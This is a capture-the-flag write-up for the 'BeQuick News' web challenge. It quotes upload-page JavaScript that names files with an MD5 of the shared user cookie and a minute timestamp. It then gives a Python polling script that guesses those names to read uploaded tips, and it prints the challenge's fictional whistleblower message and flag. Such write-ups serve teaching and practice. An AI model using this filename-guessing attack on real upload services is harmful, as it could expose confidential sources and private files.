 # BeQuick News (Web)

Author: halvis

An anonymous informant identity was compromised today. For now, the only communication between us and the informant has been through via our tip hotline. Could you figure out how the identity of the source may have been exposed?

https://bequick-news.chall.uiactf.no

# Writeup

Analyzing [upload.html](./upload.html) I quickly see that each file is processed by a javascript snippet.

```javascript	
// Get cookie value
const userCookie = getCookie('user');
if (!userCookie) {
    alert('User cookie not found.');
    return;
}

// Get current timestamp in minutes
const timestamp = Math.floor(Date.now() / 60000);

// Generate filename
const rawString = userCookie + timestamp;
const secure = CryptoJS.MD5(rawString).toString();
const newFileName = secure + '.txt';

// Create FormData and append the file
const formData = new FormData();
formData.append('file', originalFile, newFileName);

// Upload file
// Replace 'your-server-endpoint' with your actual upload handling endpoint
fetch('upload-tips', {
    method: 'POST',
    body: formData
})
.then(response => response.json())
.then(data => console.log(data))
.catch(error => console.error(error));
```

So the filename is generated by concatenating the user's cookie and the current timestamp in minutes, then hashing the result with MD5. The file is then uploaded to the server. Uploading any files now results in an error message: 

`For now, we have limited access to this functionality to a few organizations. Only the shared user 'tipuser' is allowed to upload for now, to stop the recent waves of fake tips. Want access? Contact us.`

Browsing the server I find the `/static` path which seems to contain the uploaded files.

![Alt text](image.png)

My first thought is that it might be `2024-02-26 20:11` which is the timestamp but this seems to fail when concatting the timestamp with tipuser and generating a md5: 

```
md5(tipuser28482911) = ebf0a0d5660befbe9a4c276eb38c7f85.txt
```

This file is not to be found in the `tmp_upload` directory.

So I tried to use currenttime and bruteforce +- 30 minutes from now. And suddenly I had the flag

```
I am reaching out to disclose information regarding my former employer, a leading player in Norway's salmon industry, involved in unethical tax evasion practices. As a recent member of their finance department, I witnessed firsthand the implementation of dubious accounting methods designed to significantly minimize tax liabilities.

My opposition to these practices ultimately led to my dismissal. I believe this matter deserves public attention due to its potential impact on tax fairness and the integrity of the industry. I am willing to provide further details and evidence to support an investigation into these allegations.

Please contact me if you are interested in pursuing this story. you can contact me on my private email: awilliams@proton.me
 
UIACTF{pr0tect_your_sources}
```

I've modified the [solve.py](./solve.py) to be more correct as this is a time based attack. We need to check the file before it is processed and removed. So we need to constantly check the url.

```python
import sys
import requests
import hashlib
import time
import math

user = "tipuser"

while True:
    now = math.floor(time.time() / 60)
    rawstring = user + str(now)
    secure = hashlib.md5(rawstring.encode("utf-8")).hexdigest()
    url = "https://bequick-news.chall.uiactf.no/static/tmp_upload/" + secure + ".txt"

    r = requests.get(url)

    if r.status_code == 200:
        print(r.text)
        sys.exit(0)
    else:
        print("Nope")
        time.sleep(1)
```